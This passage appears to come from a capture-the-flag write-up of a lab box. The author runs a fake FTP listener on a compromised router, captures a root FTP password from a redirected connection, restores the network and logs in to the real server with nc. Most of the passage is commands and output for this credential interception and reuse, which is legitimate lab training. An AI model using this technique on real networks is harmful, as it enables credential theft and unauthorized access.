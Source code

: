 ```bash
          RX bytes:16450 (16.4 KB)  TX bytes:16450 (16.4 KB)

root@r1:~# python3 f.py
python3 f.py
Enter to end...

```

In another shell on the host, we check for the connection:

```bash
root@r1:~# ls -lah
ls -lah
total 36K
drwx------ 1 root root  268 Mar 12 03:35 .
drwxr-xr-x 1 root root  140 Jun 22  2018 ..
-rw-r--r-- 1 root root 3.1K Jul  2  2018 .bashrc
drwx------ 1 root root   40 Jul  2  2018 .cache
-rw-r--r-- 1 root root 1.8K Mar 12 03:18 f.py
drwxr-xr-x 1 root root    0 Jul  2  2018 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   66 Jul  2  2018 .selected_editor
drwx------ 1 root root   52 Jul  2  2018 .ssh
-rw-r--r-- 1 root root    0 Jul  3  2018 test_intercept.pcap
-rw-r--r-- 1 root root   33 Jul  2  2018 user.txt
-rw------- 1 root root 5.2K Mar 12 03:24 .viminfo
-rw-r--r-- 1 root root  354 Mar 12 03:35 wmmfc.txt
root@r1:~# cat wmmfc.txt
cat wmmfc.txt
[root][5512][INFO][12-Mar-19 03:33:19] listening on ('10.120.15.10', 21)
[root][5512][INFO][12-Mar-19 03:35:02] connection from ('10.78.10.2', 53944)
[root][5512][INFO][12-Mar-19 03:35:02] Recieved: b'USER root\r\n'
[root][5512][INFO][12-Mar-19 03:35:02] Recieved: b'PASS BGPtelc0rout1ng\r\n'
[root][5512][INFO][12-Mar-19 03:35:02] Recieved: b'SYST\r\n'
root@r1:~#
```

BAMN! we got the credentials! now we need to login to the host directly. first we need to undo our changes to the network (run the cronjob, reset the `eth2` interface, and restart networking):

```bash
root@r1:~# ifconfig eth2 10.78.11.1 netmask 255.255.255.0
ifconfig eth2 10.78.11.1 netmask 255.255.255.0
root@r1:~# echo /opt/restore.sh | /bin/bash
echo /opt/restore.sh | /bin/bash
root@r1:~# systemctl restart networking
systemctl restart networking
root@r1:~#
```

Now we login to the server directly. Here we are using FTP in passive mode. here is a description of the transaction https://slacksite.com/other/ftp.html:

```bash
root@r1:~# nc 10.120.15.10 21
nc 10.120.15.10 21
220 (vsFTPd 3.0.3)
USER root
331 Please specify the password.
PASS BGPtelc0rout1ng
230 Login successful.
SYST
215 UNIX Type: L8
PASV
227 Entering Passive Mode (10,120,15,10,88,145).
HELP
214-The following commands are recognized.
```